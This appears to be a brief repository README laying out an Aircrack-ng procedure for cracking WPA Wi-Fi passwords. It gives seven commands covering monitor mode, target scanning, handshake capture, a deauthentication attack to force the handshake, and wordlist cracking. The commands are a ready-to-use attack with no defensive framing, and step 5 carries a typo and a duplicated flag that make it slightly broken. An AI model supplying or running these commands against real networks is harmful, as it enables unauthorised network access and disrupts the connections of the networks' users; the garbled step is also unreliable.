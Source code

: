 ## Tool: Aircrack-ng suite

## Steps:

#### 1) Place = Place wireless card into monitor mode

#### 2) Discover = Discover information about network (Channel, BSSID)

#### 3) Select = Select and capture data

#### 4) Perform = Perform deauth attack

#### 5) Capture = Capture WPA handshake

#### 6) Attempt = Attempt to crack the handshake

## Commands:

#### 1) 

    iwconfig

#### 2) 

    airmon-ng check kill 
    
  (Kill processes that might interfere)

#### 3) 

    airmon-ng start WIRELESS_INTERFACE 
  
  (example: wlan0)

#### 4) 

    airodump-ng WIRELESS_INRERFACEmon 
    
  (wlan0mon) (Monitor for traffic and search for an access point to target)

#### 5) 

    airodump-ng -c CHANNEL --bssid BSSID -w CAPTURE_FILE -w WIRELESS_INTERFACEmon 
    
(wlan0mon) (Capture the 4-way handshake)

#### 6) 

    aireplay-ng -0 NUM -a MAC_ADDRESS_OF_ACCESS_POINT -c STATION_NUMBER WIRELESS_INTERFACEmon 
  
  (wlan0mon) (Deauth Attack, NUM means how many times will this attack be performed)

#### 7) 

    aircrack-ng -w WORDLIST.TXT -b BSSID CAPTURE_FILE 
    
  (Crack WPA Handshake)

